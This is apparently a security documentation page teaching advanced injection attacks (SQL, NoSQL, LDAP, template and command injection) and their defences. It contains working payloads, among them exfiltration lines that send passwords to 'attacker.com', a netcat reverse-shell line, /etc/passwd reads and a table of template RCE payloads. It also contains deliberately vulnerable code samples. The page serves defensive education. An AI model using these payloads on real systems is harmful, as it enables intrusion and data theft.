




# Advanced Injection Attacks

Basic SQL injection — adding `' OR 1=1 --` to a login form — is well understood. But injection as a vulnerability class goes far deeper. Attackers use blind techniques when output is not visible, second-order injection when the payload is stored before execution, and entirely different injection types targeting NoSQL databases, LDAP directories, template engines, and operating system commands.

This page covers the advanced techniques that bypass common defenses and the comprehensive mitigations that actually work.

**Related**: [OWASP A03: Injection](/security/owasp/a03-injection) | [Advanced XSS](/security/exploits/xss-advanced) | [Security Overview](/security/)

---

## SQL Injection: Advanced Techniques

### Blind SQL Injection (Boolean-Based)

When the application does not display query results or error messages, attackers extract data one bit at a time by observing boolean differences in the application's behavior (e.g., "login succeeded" vs "login failed").

```sql
-- Attacker's goal: extract the admin password character by character
-- The application only shows "Valid user" or "Invalid user"

-- Is the first character of the admin password > 'm'?
' OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') > 'm' --

-- Application says "Valid user" → first char is between n-z
-- Is it > 't'?
' OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin') > 't' --

-- Application says "Invalid user" → first char is between n-t
-- Binary search continues until each character is determined
-- Automated tools (sqlmap) extract entire databases this way
```

### Time-Based Blind SQL Injection

When there is no visible difference in response, attackers use **time delays** to extract data. If the query takes 5 seconds, the condition was true. If it returns immediately, false.

```sql
-- PostgreSQL: extract database name character by character
'; SELECT CASE WHEN
    (SELECT SUBSTRING(current_database(),1,1)) = 'p'
  THEN pg_sleep(5)
  ELSE pg_sleep(0)
END; --

-- MySQL
'; SELECT IF(
    SUBSTRING(database(),1,1) = 'p',
    SLEEP(5),
    0
); --

-- Microsoft SQL Server
'; IF (SELECT SUBSTRING(DB_NAME(),1,1)) = 'p'
    WAITFOR DELAY '0:0:5'; --
```



### Second-Order SQL Injection

The payload is stored harmlessly in the database, then executed when it is used in a subsequent query. This bypasses input validation at the point of entry because the injection happens at the point of use.



```typescript
// Phase 1: User registers — input is properly escaped during INSERT
// Username stored in database: admin'--

// Phase 2: Password reset — the STORED value is used unsafely
app.post('/api/reset-password', async (req, res) => {
  const { email } = req.body;

  // Fetch the user's stored username (contains payload)
  const user = await db.query(
    'SELECT username FROM users WHERE email = $1', [email]
  );

  // VULNERABLE: The stored username is used without parameterization
  const result = await db.query(                          // [!code error]
    `UPDATE users SET password = '${newPassword}'
     WHERE username = '${user.rows[0].username}'`         // [!code error]
  );
  // Executed query: UPDATE users SET password = 'newpass'
  //                 WHERE username = 'admin'--'
  // The -- comments out the rest, resetting admin's password!
});
```

### Out-of-Band SQL Injection

When the application provides no in-band feedback, attackers use DNS or HTTP requests from the database server to exfiltrate data:

```sql
-- Microsoft SQL Server: exfiltrate data via DNS
'; DECLARE @data VARCHAR(1024);
  SELECT @data = password FROM users WHERE username = 'admin';
  EXEC master..xp_dirtree '\\' + @data + '.attacker.com\share'; --
-- The database server makes a DNS lookup for:
-- s3cr3tP@ss.attacker.com
-- Attacker reads the password from their DNS logs

-- PostgreSQL: exfiltrate via COPY
'; COPY (SELECT password FROM users)
  TO PROGRAM 'curl https://attacker.com/exfil?data=$(cat -)'; --

-- Oracle: exfiltrate via HTTP
' UNION SELECT UTL_HTTP.REQUEST(
  'http://attacker.com/' || (SELECT password FROM users WHERE ROWNUM=1)
) FROM dual; --
```

---

## NoSQL Injection

### MongoDB Injection

MongoDB queries use JSON objects. When user input is parsed as JSON or used to construct query objects, attackers can inject operators:

```javascript
// VULNERABLE: User input becomes part of the query object
app.post('/api/login', async (req, res) => {
  const { username, password } = req.body;

  const user = await db.collection('users').findOne({
    username: username,   // [!code error]
    password: password    // [!code error]
  });

  if (user) res.json({ success: true });
});

// Attack: POST body
// { "username": "admin", "password": {"$gt": ""} }
// This matches any document where password is greater than empty string
// — which is ALL documents. The admin is logged in without a password.

// Attack: POST body (regex match)
// { "username": {"$regex": "^admin"}, "password": {"$ne": null} }
```

```javascript
// FIXED: Validate input types and sanitize operators
app.post('/api/login', async (req, res) => {
  const { username, password } = req.body;

  // Ensure inputs are strings, not objects                 // [!code highlight]
  if (typeof username !== 'string' || typeof password !== 'string') {
    return res.status(400).json({ error: 'Invalid input' });
  }

  // Use bcrypt for password comparison, not query matching  // [!code highlight]
  const user = await db.collection('users').findOne({
    username: username
  });

  if (user && await bcrypt.compare(password, user.passwordHash)) {
    res.json({ success: true });
  }
});
```

### Redis Injection

```javascript
// VULNERABLE: User input in Redis command
app.get('/api/cache', async (req, res) => {
  const key = req.query.key;
  // If key = "foo\r\nFLUSHALL\r\n", Redis interprets
  // the newlines as command separators
  const value = await redis.get(key);              // [!code error]
  res.json({ value });
});

// FIXED: Validate and sanitize key format
app.get('/api/cache', async (req, res) => {
  const key = req.query.key;
  if (!/^[a-zA-Z0-9:_-]+$/.test(key)) {           // [!code highlight]
    return res.status(400).json({ error: 'Invalid key format' });
  }
  const value = await redis.get(key);
  res.json({ value });
});
```

---

## LDAP Injection

LDAP injection occurs when user input is used to construct LDAP search filters without sanitization:

```python
# VULNERABLE: Python LDAP query
def authenticate(username, password):
    ldap_filter = f"(&(uid={username})(userPassword={password}))"  # [!code error]
    result = ldap_conn.search_s(BASE_DN, ldap.SCOPE_SUBTREE, ldap_filter)
    return len(result) > 0

# Attack: username = "*)(uid=*))(|(uid=*"
# Resulting filter: (&(uid=*)(uid=*))(|(uid=*)(userPassword=anything))
# This matches ALL users — authentication bypassed

# FIXED: Escape special LDAP characters
import ldap.filter

def authenticate(username, password):
    safe_user = ldap.filter.escape_filter_chars(username)   # [!code highlight]
    safe_pass = ldap.filter.escape_filter_chars(password)   # [!code highlight]
    ldap_filter = f"(&(uid={safe_user})(userPassword={safe_pass}))"
    result = ldap_conn.search_s(BASE_DN, ldap.SCOPE_SUBTREE, ldap_filter)
    return len(result) > 0
```

---

## Server-Side Template Injection (SSTI)

SSTI occurs when user input is embedded into server-side templates and the template engine evaluates it as code. This frequently leads to **remote code execution**.

### How SSTI Works



### Jinja2 (Python) SSTI

```python
# VULNERABLE: User input rendered as template
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    template = f"Hello, {name}!"                    # [!code error]
    return render_template_string(template)          # [!code error]

# Attack: ?name={​{config.items()}}
# Output: Hello, dict_items([('ENV', 'production'), ('SECRET_KEY', '...')])!

# Escalation to RCE:
# ?name={​{''.__class__.__mro__[1].__subclasses__()}}
# This traverses Python's class hierarchy to find subprocess.Popen
# Then executes arbitrary commands

# FIXED: Never embed user input into template strings
@app.route('/greet')
def greet():
    name = request.args.get('name', 'World')
    return render_template_string("Hello, {​{ name }}!", name=name)  # [!code highlight]
    # 'name' is now a template VARIABLE, not template CODE
```

### Other Template Engines

| Engine | Language | Detection Payload | RCE Payload |
|--------|----------|-------------------|-------------|
| **Jinja2** | Python | `{​{7*7}}` = 49 | `{​{config.__class__.__init__.__globals__['os'].popen('id').read()}}` |
| **Twig** | PHP | `{​{7*7}}` = 49 | `{​{_self.env.registerUndefinedFilterCallback("exec")}}{​{_self.env.getFilter("id")}}` |
| **Freemarker** | Java | `${7*7}` = 49 | `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}` |
| **Pebble** | Java | `{​{7*7}}` = 49 | `{​{variable.getClass().forName('java.lang.Runtime').getRuntime().exec('id')}}` |
| **ERB** | Ruby | `<%= 7*7 %>` = 49 | `<%= system("id") %>` |

::: danger SSTI is Often RCE
Template engines are designed to execute code — that is their purpose. When user input becomes template code, the attacker inherits the full power of the template engine, which in most languages includes access to the runtime, filesystem, and process execution. SSTI should be treated as equivalent to RCE.
:::

---

## Command Injection

### Basic Command Injection

```javascript
// VULNERABLE: User input in shell command
app.get('/api/ping', (req, res) => {
  const host = req.query.host;
  exec(`ping -c 3 ${host}`, (err, stdout) => {    // [!code error]
    res.send(stdout);
  });
});

// Attack: ?host=8.8.8.8; cat /etc/passwd
// Attack: ?host=8.8.8.8 | nc attacker.com 4444 -e /bin/sh
// Attack: ?host=$(whoami).attacker.com  (out-of-band exfiltration)
```

### Command Injection Chains

Attackers use shell metacharacters to chain commands:

| Operator | Behavior | Example |
|----------|----------|---------|
| `;` | Execute sequentially | `ping 8.8.8.8; cat /etc/passwd` |
| `&&` | Execute if previous succeeds | `ping 8.8.8.8 && cat /etc/passwd` |
| `\|\|` | Execute if previous fails | `ping invalid \|\| cat /etc/passwd` |
| `\|` | Pipe output | `ping 8.8.8.8 \| nc attacker.com 4444` |
| `` ` `` | Command substitution | `` ping `whoami`.attacker.com `` |
| `$()` | Command substitution | `ping $(whoami).attacker.com` |
| `\n` / `%0a` | Newline (new command) | `ping 8.8.8.8%0acat /etc/passwd` |

### Defense Against Command Injection

```javascript
// BEST: Avoid shell commands entirely — use native APIs
import { lookup } from 'dns/promises';

app.get('/api/ping', async (req, res) => {
  const host = req.query.host;

  // Validate: only allow hostnames and IPs
  if (!/^[a-zA-Z0-9.-]+$/.test(host)) {              // [!code highlight]
    return res.status(400).json({ error: 'Invalid host' });
  }

  // Use native API instead of shell command
  try {
    const result = await lookup(host);                 // [!code highlight]
    res.json({ address: result.address });
  } catch {
    res.status(404).json({ error: 'Host not found' });
  }
});

// IF you must use shell commands: use execFile with array arguments
import { execFile } from 'child_process';

app.get('/api/ping', (req, res) => {
  const host = req.query.host;

  // execFile does NOT invoke a shell — no metacharacter interpretation
  execFile('ping', ['-c', '3', host], (err, stdout) => {  // [!code highlight]
    res.send(stdout);
  });
});
```

---

## Comprehensive Defense Strategy



### Defense Summary by Injection Type

| Injection Type | Primary Defense | Secondary Defense |
|---------------|----------------|-------------------|
| **SQL injection** | Parameterized queries / prepared statements | ORM, input validation, least-privilege DB user |
| **NoSQL injection** | Type checking (reject objects when strings expected) | Schema validation (Mongoose schema, Joi) |
| **LDAP injection** | `ldap.filter.escape_filter_chars()` | Input validation, allowlisting |
| **SSTI** | Never embed user input in template strings | Sandboxed template engine, logic-less templates |
| **Command injection** | Avoid shell commands; use `execFile` with arrays | Input allowlisting, drop shell access |
| **Second-order SQLi** | Parameterize ALL queries, including those using stored data | Never trust data from your own database |

::: tip The Golden Rule
**Never construct queries, commands, or templates by concatenating user input.** Use parameterized interfaces for every interpreter interaction. This single practice prevents the vast majority of injection vulnerabilities.
:::

---

## Key Takeaways

| Lesson | Implication |
|--------|------------|
| Blind injection is just as dangerous | Attackers can extract entire databases one bit at a time |
| Second-order injection bypasses input validation | Sanitizing at input time is not sufficient if stored data is used unsafely |
| NoSQL is not immune to injection | Different syntax, same fundamental vulnerability |
| SSTI is effectively RCE | Template engines are code execution engines |
| Defense must be at the query/command level | WAFs and input validation are supplementary, not primary |
| Parameterized interfaces are the answer | Use them everywhere, for every interpreter, including your own database |

---

## Further Reading

- [OWASP A03: Injection](/security/owasp/a03-injection) — the foundational injection vulnerability guide
- [Advanced XSS](/security/exploits/xss-advanced) — client-side injection (XSS is injection into HTML/JS)
- [Log4Shell](/security/exploits/log4shell) — JNDI injection in a logging library
- [Exploits Overview](/security/exploits/) — taxonomy and context for all exploit case studies
